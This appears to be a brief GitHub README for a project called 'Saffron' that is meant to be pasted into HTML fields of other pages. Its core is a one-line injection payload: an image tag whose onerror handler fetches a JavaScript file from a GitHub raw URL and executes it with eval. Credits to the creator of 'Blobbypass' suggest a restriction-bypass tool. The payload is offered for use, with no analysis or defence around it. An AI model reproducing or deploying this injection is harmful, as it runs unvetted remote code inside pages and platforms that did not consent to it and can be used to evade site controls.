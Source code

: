# Saffron
## A simple browser page that could be pasted on any html script code like Lego Wedo 2.0
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/SaffronA1/Saffron/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```


Credits: Blobby-Boi (Creator of Blobbypass), ChatGPT-4o, BlackBoxAI, Canva, and GitHub.
